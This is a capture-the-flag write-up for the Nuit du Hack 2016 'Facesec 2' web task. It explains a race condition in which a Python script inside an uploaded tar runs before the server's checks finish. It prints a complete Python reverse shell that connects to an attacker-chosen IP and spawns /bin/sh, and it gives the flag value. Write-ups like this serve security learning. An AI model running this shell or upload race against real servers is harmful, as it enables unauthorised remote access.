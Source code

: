 # Nuit du Hack Qualifications CTF 2016: Facesec 2

**Category:** Web App |
**Points:** 150 |
**Solves:** 6 |
**Description:**

> _Description is missing, feel free to send a pull request_ 

## Write-up

_You can find a video of this write-up [here](https://youtu.be/H1kIzcLYo2U)._

This task is a website very similar to last year's Facesec: you can upload a
resume (cv.txt), a cover letter (motiv.txt) or a tar file containing both.

We did not manage to solve this task on time. We could solve it afterward with
the help from xeka_:
><xeka_> web 150, upload you x.py exploit and check upload/x.py i that time so
many times . race condition

When you upload a tar file, the server processes it for about 2 seconds. During
this time, it extracts your file to /upload/, and check that the correct files
exist, and that they're not symlinks. (You can find /upload/ in robots.txt)

During this windows, you can run python scripts embeded in your tar file.

We tar'd a reverse shell called `foo.py`, went to /upload/foo.py (which return
an error 404), uploaded it, and quickly refreshed the first tab to make the
server run our script.
```python
import socket
import subprocess
import os

IP = "127.0.0.1" # Replace with *YOUR* IP
port = 1234

sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect((IP, port))

fd = sock.fileno()
os.dup2(fd, 0);
os.dup2(fd, 1);
os.dup2(fd, 2);

subprocess.call(["/bin/sh", "-i"]);
```

Flag is stored in /var/www/app/flag

**Flag**: 6c401b82169dce09768e322661e04630

**Bonus**: Facesec2 became a meme on IRC

![Facesec2?](https://pbs.twimg.com/media/CfEe650WQAEtq9z.jpg)
```
<MrStorm_> facesec2 ?
<tomv> facesec2? someone? plz?
<MrStorm_> facesec2?
<xeka_> facesec2
*** MrStorm_ is now known as facesec2
-vic511- facesec2?
<Notfound> facesec2:
<sambecks> ##### facesec2 ? ####
<Notfound> ##### facesec2 ? #####
<hotab2> y u post no facesec2 writeup? =((
<Notfound> ##### facesec2 ? #####
<droo> facesec2
<Notfound> ##### facesec2 ? #####
<Timvde> Did anyone ask about facesec2 yet?
<Beuc>                                                          #####
<Beuc>  ######    ##     ####   ######   ####   ######   ####  #     #
<Beuc>  #        #  #   #    #  #       #       #       #    #       #
<Beuc>  #####   #    #  #       #####    ####   #####   #       #####
<Beuc>  #       ######  #       #            #  #       #      #
<Beuc>  #       #    #  #    #  #       #    #  #       #    # #
<Beuc>  #       #    #   ####   ######   ####   ######   ####  #######
```